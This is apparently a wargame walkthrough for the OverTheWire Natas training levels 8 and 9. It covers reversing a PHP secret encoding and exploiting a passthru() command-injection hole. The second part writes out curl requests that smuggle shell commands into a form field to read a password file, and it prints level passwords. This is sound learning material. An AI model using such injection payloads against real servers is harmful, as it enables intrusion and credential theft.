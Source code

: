 		function encodeSecret($secret) {
		    return bin2hex(strrev(base64_encode($secret)));
		}
		if(array_key_exists("submit", $_POST)) {
		    if(encodeSecret($_POST['secret']) == $encodedSecret) {
		    print "Access granted. The password for natas9 is <censored>";
		    } else {
		    print "Wrong secret";
		    }
		}
		?>
		<form method=post>
		Input secret: <input name=secret><br>
		<input type=submit name=submit>
		</form>
		<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		</div>
		...
	5.a. $ python -c "print '3d3d516343746d4d6d6c315669563362'.decode('hex')[::-1].decode('base64')"
		oubWYf2kBq
	5.b. $ php -r "echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362')));"
		oubWYf2kBq
	6. $ curl -d "secret=oubWYf2kBq&submit=" http://natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe@natas8.natas.labs.overthewire.org/
		...
		Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
		...
natas9:
	1. Visit http://natas9.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl"
	4. $ curl http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org/index-source.html
		...
		<form>
		Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
		</form>
		Output:
		<pre>
		<?
		$key = "";
		if(array_key_exists("needle", $_REQUEST)) {
		    $key = $_REQUEST["needle"];
		}
		if($key != "") {
		    passthru("grep -i $key dictionary.txt");
		}
		?>
		</pre>
		...
	5. That "passthru"  is vulnerable to command injection.
	   $ curl -d "needle= > /dev/null; echo 'hi';&submit=" http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org/
	   	...
	   	Output:
	   	<pre>
	   	hi
	   	</pre>
	   	...
	6. It works! Let's read contents of the pass file.
	   $ curl -d "needle= > /dev/null; cat /etc/natas_webpass/natas10;&submit=" http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org/
	   	...
	   	nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu